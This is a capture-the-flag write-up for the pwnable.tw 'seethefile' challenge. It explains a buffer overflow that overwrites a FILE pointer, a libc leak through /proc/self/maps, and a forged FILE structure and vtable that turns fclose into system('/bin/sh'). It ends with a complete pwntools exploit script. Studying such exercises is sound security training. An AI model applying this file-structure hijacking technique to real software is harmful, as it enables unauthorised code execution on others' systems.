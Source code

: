 # pwnable.tw - seethefile

Original challenge link: https://pwnable.tw/challenge/#9

##  Overview

Quick look into decompiled code shows us we can't directly read flag file from given functions. Upon exit it asks for a name with scanf and "%s", which is vulnerable and leads to buffer overflow, and fp (file pointer) sits directly next to buffer. After we overwrite it, the code calls fclose(fp).

## Exploit

First, we need to leak libc to get access to system function. To do that, we can read `/proc/self/maps` file, which gives us complete address mapping of each segment. This way, we get use the libc base address to get address of system function.

```py
p.sendlineafter(b"see :", b"/proc/self/maps")
p.sendlineafter(b"choice :", b"2")
p.sendlineafter(b"choice :", b"2") ## read next chunk to reach libc info
p.sendlineafter(b"choice :", b"3")
p.recvlines(1) ## skip 1 extra line
libc.address = int(p.recv(8), 16)
```

Since fclose is being passed whatever pointer we overwrite, we can create a fake file structure that gives us a shell when fclose is called on it. You can see more about fclose FSOP in my [notes here](../FSOP%20Notes.md).

We can quickly create a fake _IO_File struct like this - 
```py
nullptr = 0x804b250
base_file_loc = 0x804b284
nullptr = base_file_loc+8
fileStr = FileStructure(null=nullptr)
fileStr.vtable=base_file_loc+152
payload = bytes(fileStr)
payload = b"/bin/sh\x00" + payload[8:]
```
Here, base_file_loc is just the memory address next to fp, which is where we will start writing our payload. nullptr is just a random location in bss which is always null. and the _IO_File is 152 bytes, so, we set vtable to memory address at offset of 152.

We modify the pwntools payload because first few bytes are useless in libc closing logic. so /bin/sh\x00 doesnt affect anything.

Finally we fake a vtable.
```py
jmp_addr = libc.sym['system']
vtable = flat(
    0,    #    size_t __dummy;
    0,    #    size_t __dummy2;
    p32(jmp_addr),    #    _IO_finish_t __finish;
    0,    #    _IO_overflow_t __overflow;
    0,    #    _IO_underflow_t __underflow;
    0,    #    _IO_underflow_t __uflow;
    0,    #    _IO_pbackfail_t __pbackfail;
    0,    #    _IO_xsputn_t __xsputn;
    0,    #    _IO_xsgetn_t __xsgetn;
    0,    #    _IO_seekoff_t __seekoff;
    0,    #    _IO_seekpos_t __seekpos;
    0,    #    _IO_setbuf_t __setbuf;
    0,    #    _IO_sync_t __sync;
    0,    #    _IO_doallocate_t __doallocate;
    0,    #    _IO_read_t __read;
    0,    #    _IO_write_t __write;
    0,    #    _IO_seek_t __seek;
    p32(jmp_addr),    #     _IO_close_t __close;
    0,    #    _IO_stat_t __stat;
    0,    #    _IO_showmanyc_t __showmanyc;
    0,    #    _IO_imbue_t __imbue;
)
```
We are overwriting both __finish and __close because either of them is called depending on flags set (in first 4 bytes of _IO_File, which we overwrote with /bin/sh).

Now what happens is when fclose is called, it will call __close/__finish, with base_file_loc as parameter. We overwrite __close/__finish with system, so now it executes system(base_file_loc), and whats at start of base_file_loc? Our payload /bin/sh!! This way, we get the shell.


## Solve Script
```py
from pwn import *
import time
exe = ELF("./seethefile_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['wt.exe', 'wsl.exe', '-d', 'kali-linux']

gdbscript="""break *main+216
c"""

def conn():
    if args.REMOTE:
        r = remote("chall.pwnable.tw", 10200)
    else:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdbscript)
            time.sleep(2)
    return r

p = conn()

## leak libc
p.sendlineafter(b"choice :", b"1")
p.sendlineafter(b"see :", b"/proc/self/maps")
p.sendlineafter(b"choice :", b"2")
p.sendlineafter(b"choice :", b"2") ## read next chunk to reach libc info
p.sendlineafter(b"choice :", b"3")
p.recvlines(1) # change it to recvlines(2) on local.
libc.address = int(p.recv(8), 16)

log.info(f"libc base - {hex(libc.address)}")
log.info(f"system addrr - {hex(libc.sym['system'])}")
p.sendlineafter(b"choice :", b"4")

payload = b""
nullptr = 0x804b250
base_file_loc = 0x804b284
nullptr = base_file_loc+8
fileStr = FileStructure(null=nullptr)
fileStr.vtable=base_file_loc+152
payload = bytes(fileStr)
payload = b"/bin/sh\x00" + payload[8:]

#fake vtable
jmp_addr = libc.sym['system']
vtable = flat(
    0,    #    size_t __dummy;
    0,    #    size_t __dummy2;
    p32(jmp_addr),    #    _IO_finish_t __finish;
    0,    #    _IO_overflow_t __overflow;
    0,    #    _IO_underflow_t __underflow;
    0,    #    _IO_underflow_t __uflow;
    0,    #    _IO_pbackfail_t __pbackfail;
    0,    #    _IO_xsputn_t __xsputn;
    0,    #    _IO_xsgetn_t __xsgetn;
    0,    #    _IO_seekoff_t __seekoff;
    0,    #    _IO_seekpos_t __seekpos;
    0,    #    _IO_setbuf_t __setbuf;
    0,    #    _IO_sync_t __sync;
    0,    #    _IO_doallocate_t __doallocate;
    0,    #    _IO_read_t __read;
    0,    #    _IO_write_t __write;
    0,    #    _IO_seek_t __seek;
    p32(jmp_addr),    #     _IO_close_t __close;
    0,    #    _IO_stat_t __stat;
    0,    #    _IO_showmanyc_t __showmanyc;
    0,    #    _IO_imbue_t __imbue;
)
payload += vtable


##overflow name - 
p.sendlineafter(b"choice :", b"5")

p.sendlineafter(b"name :", flat(
        b"A"*32,   ##  Overflow Name
        p32(base_file_loc), ## Write the location of address next to fp.
        payload  ## write payload next to fp.
    )
)


p.interactive()
```